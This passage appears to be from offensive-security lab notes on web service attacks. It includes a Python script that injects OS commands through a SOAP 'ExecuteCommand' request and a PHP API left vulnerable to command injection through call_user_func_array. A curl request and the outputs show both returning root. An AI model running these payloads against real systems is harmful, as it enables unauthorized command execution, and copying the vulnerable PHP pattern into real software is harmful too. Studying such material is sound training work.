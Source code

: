 ```python
            <cmd>{cmd}</cmd>
        </LoginRequest>
    </soap:Body>
</soap:Envelope>"""
    res = requests.post(url=url , data=payload , headers={"SOAPAction":'"ExecuteCommand"'} )
    print(res.text)

```
- response 
```shell
 python3 shell.py 
 
$ whoami
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root
</result></LoginResponse></soap:Body></soap:Envelope>
```



## Command injection

you can achieve a command injection through API 

**EX:**
- consider this PHP REST API 
```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```
- the ping function is safe , but the Webservice is not it is using `call_user_func_array` which take args directly from the user 
- `call_user_func_array` call a function using the first argument and set it's arguments using the second argument
- so we can make a request to call the system function and set it's argument like this
```bash
$ curl "http://10.129.255.79:3003/ping-server.php/system/id"  
uid=0(root) gid=0(root) groups=0(root)
```

